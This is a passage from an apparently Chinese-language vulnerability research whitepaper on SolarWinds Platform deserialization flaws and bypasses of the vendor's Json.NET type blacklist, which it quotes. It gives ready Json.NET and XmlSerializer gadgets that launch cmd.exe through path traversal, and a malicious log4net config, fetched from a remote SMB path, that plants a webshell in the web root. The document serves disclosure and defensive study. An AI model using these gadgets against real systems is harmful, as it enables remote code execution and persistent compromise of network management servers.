在\[2\]处，在缓存未命中的情况下，通过调用 `GetSerializerInternal` 检索序列化器，因此继续进行 `GetSerializerInternal`调用。

在\[3\]处，基于攻击者控制的类型检索 `XmlTypeMapping`。它不实施任何安全措施，仅用于检索有关给定类型的一些基本信息。

在\[4\]处，初始化了一个 `XmlStrippedSerializer` 对象。构造函数提供了四个参数：

-   一个新的 `XmlSerializer` 实例，其中序列化器的类型由攻击者控制 (!)。
-   从 `XmlTypeMapping` 获取的目标类型的 `XsdElementName`。
-   从 `XmlTypeMapping` 获取的类型的命名空间。
-   类型本身。

到目前为止，我们有两个关键事实：

-   我们正在切换反序列化器。整个 SWIS 动词负载和参数是用 `DataContractSerializer` 进行反序列化的。然而，我们的 `PropertyBag` 对象最终将使用 `XmlSerializer` 进行反序列化。
-   我们完全控制了提供给 `XmlSerializer` 构造函数的类型，这是利用的关键条件。

看起来我们能够通过类型控制在反序列化中实现另一种远程代码执行。由于`XmlSerializer` 可以通过`ObjectDataProvider`滥用，我们可以将目标反序列化类型设置为以下内容：

```plain
System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web,*  
                                Version=4.0.0.0, Culture=neutral,*  
        PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider,*  
PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]],*  
    System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e08*
```

然后，让我们分析一下`XmlStrippedSerializer.DeserializeFromStrippedXml(String)`。

```plain
public XmlStrippedSerializer(XmlSerializer serializer, string xsdElementName,
string ns, Type type)
{
    this._serializer = serializer;
    this._xsdElementName = xsdElementName;
    this._ns = ns;
    this._type = type;
}
public object DeserializeFromStrippedXml(string strippedXml)
{
    if (strippedXml == null)
    {
        throw new ArgumentNullException("strippedXml");
}
    string s = string.Format("<{0} xmlns='{1}'>{2}</{0}>", this.XsdElementName,
this.Namespace, strippedXml); // [1]
    return this.Serializer.Deserialize(new StringReader(s)); // [2]
}
```

代码段 15 CVE-2022-36958 - XmlStrippedSerializer.DeserializeFromStrippedXml 方法

在\[1\]处，正在创建一个新的 XML 字符串。它具有以下结构：

`<XsdElementName xmlns='Namespace'>ATTACKER-XML</XsdElementName>`

总结一下：

-   攻击者的 XML 采用特定类型的标签包装（参见 `GetSerializerInternal` 方法）。
-   此外，检索到的 Namespace 被插入到 xmlns 属性中。

攻击者控制最终 XML 的一个重要片段及其类型。然而，由于自定义的 XML 包装，`ysoserial.net` 的小工具不能直接使用。生成的小工具如下：

```plain
<ExpandedWrapperOfLosFormatterObjectDataProvider
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfLosFormatterObjectDataProvider>
```

代码段 16 CVE-2022-36958 - ysoserial.net ObjectDataProvider gadget

第一个标签等于 `ExpandedWrapperOfLosFormatterObjectDataProvider`。这个标签将由`DeserializeFromStrippedXml`方法自动生成，因此我们需要从生成的负载中将其删除。当我们这样做时，将传递以下 XML 给 `XmlSerializer.Deserialize` 方法：

```plain
<ExpandedWrapperOfLosFormatterObjectDataProvider xmlns=''>
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfLosFormatterObjectDataProvider>
```

代码段 17 CVE-2022-36958 -传递给 XmlSerializer.Deserialize 方法的小工具（删除第一个标签后）

我们仍然存在一个重大问题。

当把原始的 `ysoserial.net` 小工具和我们当前的小工具进行比较时，可以发现一个很大的区别：

-   原始的小工具在根标签中定义了两个命名空间：xsi 和 xsd。
-   当前的小工具只包含一个空的 xmlns 属性。

`ObjectInstance` 标签依赖于 xsi 命名空间。因此，反序列化将失败。

幸运的是，命名空间不必专门在根标签中定义。因此，我们可以通过在 `ProjectedProperty0` 标签中定义两个命名空间来修复我们的小工具。最终的小工具如下：

```plain
<ExpandedElement/>
<ProjectedProperty0 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <MethodName>Deserialize</MethodName>
    <MethodParameters>
        <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
    </MethodParameters>
    <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
</ProjectedProperty0>
```

代码段 18 CVE-2022-36958 - final deserialization gadget

这样，我们就可以实现第三个 RCE，完全控制目标反序列化类型。

#### 1.4 SolarWinds 平台 – CVE-2022-36964

从技术上讲，这个问题与 CVE-2022-36958 相同。然而，它存在于一个共享相同 ReadXml 方法实现的不同类中。在这种情况下，受影响的类是 `SolarWinds.InformationService.Contract2.PropertyBag`。

`TestAlertingAction SWIS` 动词接受这种类型的参数，因此可以通过 API 解决此问题。

我已经在 CVE-2021-31474 中使用了相同的类进行了 `Json.NET` 反序列化的滥用，随后我意识到这个类也可以以完全不同的方式被滥用。

#### 1.5 SolarWinds 平台 – 已实施的缓解措施

这篇白皮书的主要研究思想之一 —— 在产品代码库中查找反序列化小工具。首先，让我们验证两个基于 `Json.NET` 反序列化漏洞的已实施缓解措施：

-   CVE-2022-38108
-   CVE-2022-36957

它们已经通过以下黑名单的实施进行了修补：

```plain
private static readonly ISet<string> BlackListSet = new
HashSet<string>(StringComparer.OrdinalIgnoreCase)
{
    "System.Diagnostics.Process",
    "System.Diagnostics.ProcessStartInfo",
    "System.Data.Services.Internal.ExpandedWrapper",
    "System.Workflow.ComponentModel.AppSettings",
    "Microsoft.PowerShell.Editor",
    "System.Windows.Forms.AxHost.State",
    "System.Security.Claims.ClaimsIdentity",
    "System.Security.Claims.ClaimsPrincipal",
    "System.Runtime.Remoting.ObjRef",
    "System.Drawing.Design.ToolboxItemContainer",
    "System.DelegateSerializationHolder",
    "System.DelegateSerializationHolder+DelegateEntry",
    "System.Activities.Presentation.WorkflowDesigner",
    "System.Windows.ResourceDictionary",
    "System.Windows.Data.ObjectDataProvider",
    "System.Windows.Forms.BindingSource",
"Microsoft.Exchange.Management.SystemManager.WinForms.ExchangeSettingsProvider",
    "System.Management.Automation.PSObject",
    "System.Configuration.Install.AssemblyInstaller",
    "System.Security.Principal.WindowsIdentity",
    "System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector",
"System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSur
rogate+ObjectSerializedRef",
    "System.Web.Security.RolePrincipal",
    "System.IdentityModel.Tokens.SessionSecurityToken",
    "System.Web.UI.MobileControls.SessionViewState+SessionViewStateHistoryItem",
    "Microsoft.IdentityModel.Claims.WindowsClaimsIdentity",
    "System.Security.Principal.WindowsPrincipal"
};
```

代码段 19 Json.NET 反序列化已实施的类的黑名单

可以注意到，此黑名单包含了近 30 个类，数量很多。它是基于两个来源创建的：

-   在 `ysoserial.net` 中实施的小工具。
-   在“Friday the 13th JSON Attacks”中描述的小工具，这些小工具没有在 `ysoserial.net` 中实施。

如果想要利用这个黑名单，我们可能需要想出一些新的方法。

若想针对特定的序列化器，并寻找新的反序列化小工具，就必须熟悉序列化程序的功能。`Json.NET` 是一个功能强大的序列化器，实现了多种可能性。本文关注其中的几种。

-   典型方法：`Json.NET` 可以调用类的非参数公共构造函数并调用其公共的 setter。
-   `Json.NET` 可以处理 `Serializable` 构造函数（带有 `SerializationInfo` 和 `StreamingContext` 参数）和序列化回调（例如 `OnDeserializing` 或 `OnDeserialized`）。
-   `Json.NET` 可以调用带有 `JsonConstructor` 属性的构造函数。
-   `Json.NET` 允许实现自定义转换器（参见 CVE-2022-36597 章节）。
-   等等。

在寻找新的反序列化小工具时，必须充分了解序列化程序的功能。在几乎每个反序列化器中，构造函数处理机制都是需要考虑的事项。`Json.Net` 的构造函数选择机制如下：

-   默认情况下，`Json.NET` 查找带有 `JsonConstructorAttribute` 标记的构造函数。
-   然后，它查找不带参数的公共构造函数。
-   最后，它将检查类是否具有带参数的单个公共构造函数。

在当前的技术水平下，最后一种功能似乎特别缺失。如果类只实现了一个公共构造函数（接受参数），它可以在反序列化期间被调用，并将参数传递给它。

还必须注意，`Json.NET` 可以配置为调用非公共构造函数。这很重要，因为这样的配置极大地扩展了潜在的攻击面。

现在我们知道了 `Json.NET` 可以实现什么，让我们浏览一下类的黑名单，并尝试绕过它。

#### 1.6 SolarWinds 平台 – 第一个绕过 - CVE-2022-38111

在分析黑名单，似乎有一项不对：`Microsoft.PowerShell.Editor`

我很快意识到列表中存在一个错误。黑名单中包含的是 DLL 名称，而不是类名。此项目旨在阻止`TextFormattingRunProperties` 反序列化小工具。完整类型为：

`Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties,Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35`

因为这个错误，我们可以传递 `TextFormattingRunProperties` 的序列化对象。然而，当检查 `ysoserial.net` 的 README 页面时，很快就会发现这个小工具不能用于 `Json.NET`。



图 3 TextFormattingRunProperties in ysoserial.net - no implementation for Json.NET

看起来这是我们目前唯一可用的工具，我们可能需要进一步确认这个类确实不可行。让我们看看这个小工具是如何工作的。

```plain
[Serializable] // [1]
public sealed class TextFormattingRunProperties : TextRunProperties,
ISerializable, IObjectReference
{
    internal TextFormattingRunProperties(SerializationInfo info, StreamingContext
context) // [2]
    {
        this._foregroundBrush =
(Brush)this.GetObjectFromSerializationInfo("ForegroundBrush", info); // [3]
        this._backgroundBrush =
(Brush)this.GetObjectFromSerializationInfo("BackgroundBrush", info);
        ...
        //removed for readability
        ...
    }
    private object GetObjectFromSerializationInfo(string name, SerializationInfo
info)
    {
        string @string = info.GetString(name);
        if (@string == "null")
        {
            return null;
        }
        return XamlReader.Parse(@string); // [4]
    }
    ...
}
```

代码段 20 TextFormattingRunProperties deserialization gadget

在 \[1\] 处，可以看到该类使用 `Serializable` 属性定义。

在 \[2\] 处，定义了 `Serializable` 构造函数。

在 \[3\] 处，它调用了 `GetObjectFromSerializationInfo` 方法，输入为受攻击者控制。

在 \[4\] 处，攻击者的输入被传递给 `XamlReader.Parse` 方法，从而导致使用 XAML 反序列化小工具的远程代码执行。

由于我们已经分析了 `Json.NET` 的能力，我们知道在反序列化过程中可以调用 `Serializable` 构造函数。基于这一点，即使该小工具没有在 `ysoserial.net` 中实现，也可以利用 `Json.NET`。示例小工具：

```plain
{
    '$type':'Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties,
Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35',
    'ForegroundBrush':'<ResourceDictionary
      xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\"
      xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\"
      xmlns:System=\"clr-namespace:System;assembly=mscorlib\"
      xmlns:Diag=\"clr-namespace:System.Diagnostics;assembly=system\">
            <ObjectDataProvider x:Key=\"LaunchCalc\" ObjectType = \"{ x:Type
Diag:Process}\" MethodName = \"Start\" >
        <ObjectDataProvider.MethodParameters>
        <System:String>cmd</System:String>
        <System:String>/c whoami >
C:\\Users\\Public\\abcd.txt</System:String>
        </ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </ResourceDictionary>'
}
```

代码段 21 Sample TextFormattingRunProperties gadget for Json.NET

总结一下，我们对黑名单的第一个绕过是基于该列表中的错误，其中提供了 DLL 名称而不是类名。尽管该小工具在 `ysoserial.net` 中没有为 `Json.NET` 实现，但事实证明它可以与有针对性的序列化器一起使用。

如果我们觉得没有其他选择，我们可能要验证小工具的工作原理，可能会发现它也可以用于利用不同的序列化程序。

#### 1.7 SolarWinds Platform – 第二个绕过 – CVE-2022-47503

当将上一个漏洞报告给供应商时，我的第一个想法是：“它可能会被修复在黑名单中的项。”因此，我必须找到不同的方法来利用我们的反序列化漏洞。我的研究想法是：查看 `SolarWinds` 中实现的类，并验证：

-   有没有任何可以由 `Json.NET` 反序列化的类。
-   这会导致一些潜在的危险行为。

经过一段时间，我找到了 `SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy` 类：

```plain
public WorkerControllerWCFProxy(WorkerConfiguration workerConfiguration,
ServiceOperationMode operationMode, string workerProcessLabel) // [1]
{
    this.workerConfiguration = workerConfiguration;
    this.operationMode = operationMode;
    this.workerProcessLabel = workerProcessLabel;
    this.uri = this.LaunchWorkerProcess(); // [2]
    this.Connect();
}
```

代码段 22 WorkerControllerWCFProxy class

在 \[1\] 处，定义了唯一的构造函数。它接受以下三种类型的参数：

-   WorkerConfiguration。
-   ServiceOperationMode。
-   string。

在 \[2\] 处，调用了 `LaunchWorkerProcess` 方法。

由于这是该类中实现的唯一公共构造函数，我们可以使用 `Json.NET` 调用它。然而，我们仍然不知道我们是否可以完全控制这些参数（尽管最后一个是字符串类型）。

如果 `Json.NET` 能够反序列化前两个参数，我们就可以对它们进行控制。如果不能，我们可以提供一个空值，并希望它对反序列化不产生影响（特别是对那些我们想要达到的危险行为）。

`ServiceOperationMode` 是一个枚举，因此我们在其反序列化方面没有问题。但是，还需要验证 `SolarWinds.JobEngine.WorkerConfiguration`：

```plain
namespace SolarWinds.JobEngine
{
    [DataContract(Name = "WorkerConfiguration", Namespace =
"http://schemas.solarwinds.com/2007/10/jobengine")]
    internal class WorkerConfiguration
    {
        [DataMember]
        public WorkerType WorkerType { get; set; }

        [DataMember]
        public bool Use64Bit { get; set; }

        [DataMember]
        public string CommandLine { get; set; } // [1]

        [DataMember]
        public string CommandArguments { get; set; } // [2]

        [DataMember]
        public int MaxJobsPerWorker { get; set; }

        public static WorkerConfiguration FromJobDescription(JobDescription
jobDescription, PluginInfo plugin)
        {
            WorkerConfiguration workerConfiguration = new WorkerConfiguration
            {
                WorkerType = jobDescription.WorkerType,
                Use64Bit = jobDescription.Use64Bit,
                CommandLine = jobDescription.CustomWorkerCommandLine,
                CommandArguments = jobDescription.CustomWorkerCommandArgs
            };
            if (plugin.Prefer64Worker)
            {
                workerConfiguration.Use64Bit = true;
            }
            return workerConfiguration;

        }

        public override string ToString()
        {
            return string.Format("Type: {0}, 64bit: {1}, Cmd: {2} {3}", new
object[]
            {
                this.WorkerType,
                this.Use64Bit,
                this.CommandLine,
                this.CommandArguments

            });
        }
    }
}
```

代码段 23 WorkerConfiguration class

首先，可以注意到没有定义构造函数。在这种情况下，编译器会添加一个接受零参数的公共构造函数。这意味着我们可以反序列化该类型的对象。

在 \[1\] 和 \[2\] 处，我们定义了两个名为 `CommandLine` 和 `CommandArguments` 的字符串成员的公共 setter。

由于我们知道可以控制传递给构造函数的所有参数，我们可以分析 `LaunchWorkerProcess` 方法，在反序列化期间将调用该方法。

```plain
private Uri LaunchWorkerProcess()
{
WorkerType workerType = this.workerConfiguration.WorkerType;
ProcessStartInfo processStartInfo;
if (workerType != WorkerType.Native) // [1]
{
if (workerType != WorkerType.Custom) // [1]
{
throw new ArgumentOutOfRangeException();
}
WorkerControllerWCFProxy.log.Debug("Launching Custom Worker Process");
processStartInfo = this.CreateCustomWorkerProcessStartInfo(); // [2]
}
else
{
WorkerControllerWCFProxy.log.Debug("Launching Native Worker Process");
processStartInfo = this.CreateNativeWorkerProcessStartInfo();
}
processStartInfo.UseShellExecute = false;
Uri result = null;
using (EventWaitHandle eventWaitHandle = new EventWaitHandle(false,
EventResetMode.ManualReset,
WorkerSynchronizationHelper.GetWorkerProcessWaitHandleName(this.id.ToString())))
{
this.process = Process.Start(processStartInfo); // [3]
this.ProcessId = this.process.Id;
while (!eventWaitHandle.WaitOne(10, false))
{
if (this.process.WaitForExit(0))
{
throw new Exception("Failure starting worker process");
}
}
}
...
}
```

代码段 24 LaunchWorkerProcess 方法

在 \[1\] 和 \[2\] 的位置，代码验证 `WorkerType` 枚举是否等于 Custom。由于 `WorkerConfiguration` 具有公共的 setter，我们可以控制该成员。

如果是，将在 \[2\] 处创建新的 `ProcessStartInfo`，使用 `CreateCustomWorkerProcessStartInfo` 方法。

在 \[3\] 处，使用检索到的 `ProcessStartInfo` 启动新的进程。

`CreateCustomWorkerProcessStartInfo` 代码：

```plain
private ProcessStartInfo CreateCustomWorkerProcessStartInfo()
{
    int availablePort =
NetworkHelper.GetAvailablePort(JobEngineSettings.GetSection().MinCustomWorkerPort
Number, JobEngineSettings.GetSection().MaxCustomWorkerPortNumber);
    if (availablePort <= 0)
    {
        throw new Exception("Unable to get free port for worker process");
    }
    this.Port = (ushort)availablePort;
    string text = string.Format("{0} -port {1} -id {2} -ppid {3}", new object[]
    {
        this.workerConfiguration.CommandArguments,
        this.Port,
        this.id,
        Process.GetCurrentProcess().Id
    }); // [1]
    string text2 = Path.Combine(this.pluginDirectory.Value,
this.workerConfiguration.CommandLine); // [2]
    if (WorkerControllerWCFProxy.log.IsDebugEnabled)
    {
        WorkerControllerWCFProxy.log.DebugFormat("Custom worker commandline: {0}
{1}", text2, text);
    }
    return new ProcessStartInfo(text2) // [3]
    {
        Arguments = text,
        WorkingDirectory = this.pluginDirectory.Value
    };
}
```

代码段 25 CreateCustomWorkerProcessStartInfo 方法

在 \[1\] 处，创建了命令参数字符串。攻击者控制字符串的第一部分，因此他可以在命令执行期间附加 & 字符以省略其余的参数。示例参数：“calc.exe &”

在 \[2\] 处，使用 `Path.Combine` 方法创建了命令文件名。第一个参数包含硬编码的路径，第二个参数包含攻击者控制的字符串。攻击者可以使用路径遍历序列，例如 .`.\..\..\..\..\..\..\..\..\..\..\Windows\System32\cmd.exe`，以达到任何二进制文件。绝对路径也可以被提供。

在 \[3\] 处，使用来自 \[2\] 处的文件名和来自 \[1\] 处的参数创建 `ProcessStartInfo`。

因此，攻击者可以利用 `SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy` 类，绕过 `Json.NET` 反序列化黑名单并执行任意命令。

在这里我实现了目标，能够找到一个类：

-   在产品代码库中实现。
-   允许在反序列化期间达到危险行为。在这里，通过生成新进程实现远程代码执行。

`WorkerControllerWCFProxy`类的示例 `Json.NET` 小工具，将执行“cmd.exe /c whoami > C:\\poc.txt”命令：

```plain
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c whoami > C:\\poc.txt & " 
    }, 
    "operationMode": 0, 
    "workerProcessLabel": "whatever" 
} 
```

代码段 26 WorkerControllerWCFProxy gadget

#### 1.8 SolarWinds Platform – 第 3 个绕过 - CVE-2022-47507

当我们找到一个允许滥用反序列化漏洞的自定义小工具并报告它时，它很快就会被阻止。

如果已经有了一个小工具，有两件事情可以迅速尝试：

-   可以检查是否有一个类，它继承自小工具类，会发现通过具有不同名称的类可以轻松达到相同的危险行为。这个类可能不会被补丁阻止。
-   可以检查在小工具中使用的类是否在任何不同的类中使用。

我没有找到继承 `WorkerControllerWCFProxy` 的类，但我找到了 `SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy`，它内部调用 `WorkerControllerWCFProxy` 构造函数。

这个类只实现了一个公共构造函数：

```plain
public WorkerProcessWCFProxy(int maxConcurrentJobs, string assemblyName, 
WorkerConfiguration workerConfiguration, ServiceOperationMode operationMode) //  
[1] 
{
    this.maxConcurrentJobs = maxConcurrentJobs; 
    this.assemblyName = assemblyName; 
    this.operationMode = operationMode; 
    this.workerConfiguration = workerConfiguration; 
    try 
    { 
         this.CreateWorkerController(); // [2] 
        this.LaunchWorker(); 
         this.Connect(); 
    } 
    catch (Exception) 
     { 
        this.Terminate(); 
        throw; 
    } 
}
```

代码段 27 WorkerProcessWCFProxy 构造函数

在 \[1\] 处，定义了构造函数。有四个输入参数，我们可以通过反序列化控制所有这些参数（请参阅前一章）。

在 \[2\] 处，调用了 `CreateWorkerController` 方法。

```plain
private void CreateWorkerController() 
{ 
    this.workerController = new 
WorkerControllerWCFProxy(this.workerConfiguration, this.operationMode, 
this.assemblyName); 
} 
```

代码段 28 CreateWorkerController

可以看到，我们正在调用 `WorkerControllerWCFProxy` 的构造函数。这与我们在前一章中滥用的构造函数相同。

实际上，这里我们有第二个反序列化小工具，因为有一个不同的类正在被反序列化。在 CVE-2022-47503 中，我滥用了 `WorkerControllerWCFProxy` 类。在这里，我正在滥用 `WorkerProcessWCFProxy` 类。如果通过扩展黑名单修复了第一个漏洞，我们仍然可以使用第二个类。

恶意小工具示例：

```plain
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "maxConcurrentJobs": 5, 
     "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c calc.exe & "30 
    }, 
    "operationMode": 0, 
    "assemblyName": "whatever" 
}
```

代码段 29 WorkerProcessWCFProxy gadget

#### 1.9 SolarWinds 平台 - 第 4 次绕过 - CVE-2023-23836

前两个小工具是基于一个简单的想法，它允许我们调用 `Process.Start` 方法。当攻击者控制输入参数时，这很容易被发现并且明显是恶意的。

现在，让我们想象一下，如果找到了一个反序列化小工具，它允许我们操控产品的功能，例如：

-   修改配置（实际上，我找到了一些产品的反序列化小工具，允许修改某些插件的配置）。
-   添加/修改用户。
-   触发一些产品特定的功能。
-   等等。

我们都倾向于寻找简单的小工具（就像前两个描述的小工具）。然而，我们总是需要关注反序列化可能引发的不同行为，这可能会带来漏洞风险。

这个反序列化小工具基于 `SolarWinds.IPAM.Storage.Credentials.CredentialInitializer` 类。

这个类实现了一个公共构造函数：

```plain
public class CredentialInitializer 
{ 
    public CredentialInitializer(string logConfigFile) // [1] 
    { 
        try 
        { 
            this.ConfigureLog(logConfigFile); // [2] 
            this.InstallCertificate(); 
            this.ConvertCredentials(); 
            this.ConvertOldSnmpv3Credentials(); 
        } 
        catch (Exception exception) 
        { 
            CredentialInitializer.log.Error("Error occurred when trying to  
initialize shared credentials", exception); 
            throw; 
        } 
    } 
 ...
```

代码段 30 CredentialInitializer 构造函数

在\[1\]，定义了构造函数，它接受一个名为`logConfigFile`的字符串作为输入。

在\[2\]，调用了`ConfigureLog`方法，并传递了攻击者的输入。

```plain
private void ConfigureLog(string configFile) 
{ 
    if (string.IsNullOrEmpty(configFile)) 
    { 
        Log.Configure(string.Empty); 
    } 
    else 
    { 
        Log.Configure(configFile); // [1] 
    } 
    CredentialInitializer.log.DebugFormat("Used log configuration file: {0}", 
configFile); 
}
```

代码段 31 ConfigureLog 方法

在\[1\],调用了`SolarWinds.Logging.Log.Configure`静态方法，其中传递了配置路径。

```plain
public static void Configure(string configFile = null) 
{ 
    foreach (string text in Log.EnumFile(configFile)) // [1] 
    { 
        if (!string.IsNullOrEmpty(text)) 
        { 
            FileInfo fileInfo = new FileInfo(text); // [2] 
            if (fileInfo.Exists) 
            { 
                HashSet<string> configurations = Log._configurations; 
                lock (configurations) 
                { 
                    if (Log._configurations.Contains(fileInfo.FullName)) // [3] 
                    { 
                        continue; 
                    } 
                } 
                try 
                { 
                    XmlDocument xmlDocument = new XmlDocument(); 
                    xmlDocument.Load(fileInfo.FullName); // [4] 
                    XmlNodeList elementsByTagName =  
xmlDocument.GetElementsByTagName("log4net"); // [5] 
                    if (elementsByTagName != null && elementsByTagName.Count > 0) 
                    { 
                        configurations = Log._configurations; 
                        lock (configurations) 
                        { 
                            if (!Log._configurations.Contains(fileInfo.FullName)) 
                            { 
                                XmlConfigurator.ConfigureAndWatch(fileInfo); //  
[6] 
                                Log._configurations.Add(fileInfo.FullName); 
                            } 
                        } 
                    } 
                } 
                catch 
                { 
                } 
            } 
        } 
    } 
}
```

代码段 32 Log.Configure 方法

在\[1\]，代码通过配置文件列表进行迭代。该列表将包含：由输入参数`configFile`定义的路径以及当前进程已加载的其他配置文件。

在\[2\]，从当前路径创建`FileInfo`对象。

在\[3\]，代码检查当前循环迭代中的文件是否已加载。如果是，则调用`continue`，配置文件将不会被加载。如果文件尚未加载，代码流程继续。

在\[4\]，使用`XmlDocument.Load`方法加载配置文件。

在\[5\]，从文件中提取`log4net`标签。

在\[6\]，配置正在加载。

名为 log4net 的标签表明，实际上正在加载新的 log4net 配置（log4net 可以被视为 Java 的 log4j 的等同物）。总的来说，具有反序列化`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`类的可能性的攻击者可以强制 SolarWinds 进程从文件中加载新的 log4net 配置。

这似乎是一个非常有趣的反序列化小工具，但我们必须考虑如何交付这个文件。我们有两个主要选项：

a) 我们可以提供 UNC 路径，直接从我们的 SMB 服务器加载配置文件。虽然外部 SMB 流量可以被过滤掉，但这样的攻击方法通常在作为位于内部网络的攻击者时有效。由于 SolarWinds Platform 很少暴露在互联网上，我认为这种攻击场景适用于大多数 SolarWinds 实例。

b) 它可以与文件写入基元链接。请注意，路径、扩展名和文件名都未经任何验证，因此我们可以使用合法的文件写入功能（如图像上传）来传递我们的配置文件。

由于 log4net 正在处理日志文件，我开始考虑文件上传基元。我查看了 log4net，找到了以下配置：

```plain
<log4net> 
    ... 
     <appender name="RollingLogFileAppender" 
type="log4net.Appender.RollingFileAppender"> 
        <file value="C:\inetpub\wwwroot\poc.aspx" /> [1] 
        <encoding value="utf-8" /> 
        <appendToFile value="false" /> 
        <rollingStyle value="Size" /> 
        <maxSizeRollBackups value="5" /> 
        <maximumFileSize value="5MB" /> 
        <layout type="log4net.Layout.PatternLayout"> 
        <header type="log4net.Util.PatternString" value="webshell-here" /> [2] 
        <conversionPattern value="" /> [3] 
        </layout> 
    </appender> 
    ... 
    <logger name="SolarWinds.IPAM.Storage.Credentials.CredentialInitializer"> [4] 
        <level value="DEBUG"></level> 
    </logger> 
    <root> 
        <level value="INFO" /> 
        <appender-ref ref="RollingLogFileAppender" /> 
        <appender-ref ref="ConsoleAppender" /> 
        <appender-ref ref="OrionImprovementAppender" /> 
    </root> 
    <appender name="OrionImprovementAppender" 
type="SolarWinds.OrionImprovement.Logger.OrionImprovementAppender,  
SolarWinds.OrionImprovement.Logger, Version=1.0.0.0, Culture=neutral,  
PublicKeyToken=aa802ff51e6c3813" /> 
</log4net>
```

代码段 33 代码片段 33 恶意 log4net 配置

在\[1\]，我为`RollingLogFileAppender`定义了一个日志文件路径，设置为`C:\inetpub\wwwroot\poc.aspx`。

在\[2\]，我为日志文件定义了一个标头，其中包含一个 `webshell` 负载。

在\[3\]，我定义了一个空的`conversionPattern`。

在\[4\]，我将日志记录器名称设置为`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`。

当 Log4Net 加载这样的配置文件时：

-   创建`C:\inetpub\wwwroot\poc.aspx`文件。
-   将 `webshell` 负载写入文件。
-   由于`conversionPattern`设置为 null，新的日志消息将不会出现在日志文件中。

最后一步很重要，因为反序列化`CredentialInitializer`的进一步流程将创建新的日志消息。这会破坏我们的 `webshell`。

通过这种方式，我们可以利用 Log4Net 的配置更改机制来上传 `webshell`。然而，需要考虑一件事。使用这种方式上传文件时，文件会被锁定（因为 log4Net 不断尝试写入日志消息，保持文件打开），这导致我们无法使用 `webshell`。然而，我们可以进行两次反序列化，其中第二个小工具包含了配置中不同的文件名。这将释放对第一个文件的锁定，从而使我们能够使用已上传的 `webshell`。

小工具示例：

```plain
{ 
    "$type":"SolarWinds.IPAM.Storage.Credentials.CredentialInitializer,  
SolarWinds.IPAM.Storage, Version=2022.4.0.0, Culture=neutral,  
PublicKeyToken=null", 
    "logConfigFile":"\\\\192.168.1.10\\poc\\malicious.config" 
}
```

代码段 34 CredentialInitializer gadget

